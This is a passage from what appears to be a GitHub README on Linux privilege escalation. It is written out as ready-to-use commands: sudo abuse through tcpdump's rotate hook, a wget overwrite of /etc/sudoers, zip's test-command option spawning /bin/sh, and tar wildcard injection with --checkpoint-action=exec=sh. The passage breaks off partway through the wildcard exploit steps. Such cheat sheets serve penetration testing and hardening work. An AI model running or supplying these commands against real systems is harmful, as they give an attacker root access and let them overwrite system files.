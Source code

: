 - **tcpdump**

echo "whoami > /tmp/whoami" > /tmp/tmpfile

sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z ./tmpfile -Z root

  

cat whoami 

root

- **wget (overwrite system file - need a web server)**

sudo wget http://127.0.0.1/sudoers -O /etc/sudoers

- **zip**

echo "/bin/sh" > /tmp/run.sh

sudo zip z.zip * -T -TT /tmp/run.sh

  

_Note: If you have more binary example, do not hesitate to open an issue explaining the technic and I will add it on the list._

  

Having sudo access on these binaries do not mean you could always manage to execute commands on the system. For example, using the mount binary with a limited user could give you the following well known error, if it's well configured:

  

mount: only root can use "--options" option

  

### Wildcards

If you have never heard about Unix wildcards, I suggest you read this very well explained [article](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt). Using wildcards could lead into code execution if this one is not well called.

  

For our example, we want to get a shell ("sh") using the tar command to execute code on the server. As explained on the LOLBin section, we could get it doing:

  

tar cf archive.tar * --checkpoint=1 --checkpoint-action=exec=sh

  

We consider a test file which is used to realize an archive of all files present on the directory.

  

user@host:~$ cat test.sh 

tar cf archive.tar * 

**Here are the steps to exploit this bad configuration:**

- open nano (with no arguments)
- write something in it
